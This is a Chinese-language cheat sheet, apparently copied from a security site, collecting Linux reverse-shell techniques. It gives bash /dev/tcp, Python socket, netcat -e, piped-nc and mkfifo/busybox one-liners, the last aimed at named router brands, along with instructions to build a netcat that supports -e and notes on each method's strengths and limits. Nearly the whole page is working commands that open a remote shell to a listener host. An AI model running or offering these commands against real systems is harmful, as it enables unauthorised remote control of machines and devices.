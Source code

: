 # LINUX 反弹 shell

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/1.html](http://book.iwonder.run/安全技术/Linux 后门/1.html)

关于反弹原理，和每一步的数据流向在网上都有文章，就不复制了。这里只是用来总结下常规反弹 shell 的用法，顺便说下优点缺点。

### 姿势一

```
bash -i >& /dev/tcp/127.0.0.1/6666 0>&1 
```

![image](img/438dc144c3f3e98c8d016bed93adbf08.png)

优点：在大多数 Liunx 系统上都可以使用，缺点：在路由器系统中不存在 bash，存在符号>、& 在反序列化中或者对符号转义的情况下就没有办法反弹了。

### 姿势二

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('127.0.0.1',6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" 
```

![image](img/e6388e94752567bcb852afee43229c11.png)

优点：在安装了 python 上的 linux 都可以使用，原理还是将标准输入、标准输出、标准错误输出重定向到远程。使用 bash 交互模式启动。缺点：在路由器系统中不存在 bash 或者阉割了 python 库，存在符号>、& 、'、"在反序列化中或者对符号转义的情况下就没有办法反弹了。单双引号也会导致闭合问题。

### 姿势三

```
nc -e /bin/bash 127.0.0.1 6666 
```

![image](img/578c2afd9320e42c13befccf766e08c5.png)

### 姿势四

一般 Netcat 有两个版本，一个版本是不提供反向连接的版本，一个是全功能版本。这两者的区别就是是否带-e 参数，只有带-e 参数的版本才支持反向连接。ubuntu 18.04 安装的是不提供反向链接的版本。

```
wget https://sourceforge.net/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gztar -zxvf netcat-0.7.1.tar.gz -C /usr/localcd /usr/localmv netcat-0.7.1 netcatcd /usr/local/netcat./configuremake && make install 
```

![image](img/4af64a022a514910366c700e0faee725.png)

优点：直接反弹，没有多余的符号。缺点：系统 apt 默认安装的都是不提供反向链接的版本，需要自己上传编译后的二进制版本。

#### 解决方法 1:

```
nc 127.0.0.1 6666|/bin/bash|nc 127.0.0.1 7777 
```

![image](img/448f28969aed22ac20f1315a5767eadf.png)

利用 6666 端口传入内容交给 bash 执行，再将内容从 7777 送出去，管道符的用法。可以在阉割功能的 nc 上使用。

#### 解决方法 2(针对某些 mips 架构的路由器&busybox 终端的系统)：

```
//锐捷
mkfifo /tmp/backpipe1 | /bin/sh 0</tmp/backpipe1 | nc 127.0.0.1 6666 1>/tmp/backpipe1

//飞鱼星反弹 shell
mkfifo /tmp/backpipe1 | /bin/sh 0</tmp/backpipe1 | /bin/busybox nc 127.0.0.1 6666 1>/tmp/backpipe1 
```

![image](img/fe1a9c12366055672b18f690a8c1641a.png)

